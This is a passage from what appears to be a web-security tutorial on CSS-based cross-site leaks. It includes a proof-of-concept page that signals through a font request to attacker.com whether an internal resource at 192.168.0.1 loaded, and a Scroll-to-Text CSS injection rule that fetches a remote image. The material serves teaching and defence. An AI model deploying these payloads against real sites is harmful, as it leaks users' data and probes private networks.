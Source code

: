 ```html
<!DOCTYPE html>
<html>
  <head>
    <style>
      @font-face {
        font-family: poc;
        src: url(http://attacker.com/?leak);
        unicode-range: U+0041;
      }

      #poc0 {
        font-family: "poc";
      }
    </style>
  </head>
  <body>
    <object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
  </body>
</html>
```

1. **Custom Font Usage**:

   - A custom font is defined using the `@font-face` rule within a `<style>` tag in the `<head>` section.
   - The font is named `poc` and is fetched from an external endpoint (`http://attacker.com/?leak`).
   - The `unicode-range` property is set to `U+0041`, targeting the specific Unicode character 'A'.

2. **Object Element with Fallback Text**:
   - An `<object>` element with `id="poc0"` is created in the `<body>` section. This element tries to load a resource from `http://192.168.0.1/favicon.ico`.
   - The `font-family` for this element is set to `'poc'`, as defined in the `<style>` section.
   - If the resource (`favicon.ico`) fails to load, the fallback content (the letter 'A') inside the `<object>` tag is displayed.
   - The fallback content ('A') will be rendered using the custom font `poc` if the external resource cannot be loaded.

### Styling Scroll-to-Text Fragment

The **`:target`** pseudo-class is employed to select an element targeted by a **URL fragment**, as specified in the [CSS Selectors Level 4 specification](https://drafts.csswg.org/selectors-4/#the-target-pseudo). It's crucial to understand that `::target-text` doesn't match any elements unless the text is explicitly targeted by the fragment.

A security concern arises when attackers exploit the **Scroll-to-text** fragment feature, allowing them to confirm the presence of specific text on a webpage by loading a resource from their server through HTML injection. The method involves injecting a CSS rule like this:

```css
:target::before {
  content: url(target.png);
}
```
